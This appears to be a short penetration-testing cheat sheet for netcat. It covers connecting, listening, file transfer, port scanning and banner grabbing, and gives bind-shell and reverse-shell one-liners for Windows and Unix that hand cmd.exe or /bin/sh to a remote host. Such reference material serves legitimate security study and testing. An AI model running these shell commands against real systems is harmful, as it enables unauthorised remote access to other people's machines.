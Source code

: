 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


Usage
-----
Insert picture here


Basic
-----
**TCP Port - Connecting**  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**
`nc -lvp <PORT>`

**Connect and return HTTP Page**
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**
`nc -lvp 4444 > output.txt # Receiving End`
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**
`echo "" | nc -nv -w1 <IP Address> <Ports>`

Windows
-----
**Bind Shell**
`nc -lvp 4444 -e cmd.exe`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443 # Attacking Machine - Waiting for shell`
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`

Nix
-----
**Bind Shell**
`nc -lvp 4444 -e /bin/sh`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443`
`nc -nv <IP> 443 -e /bin/sh`

Additional Resources
-----
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)

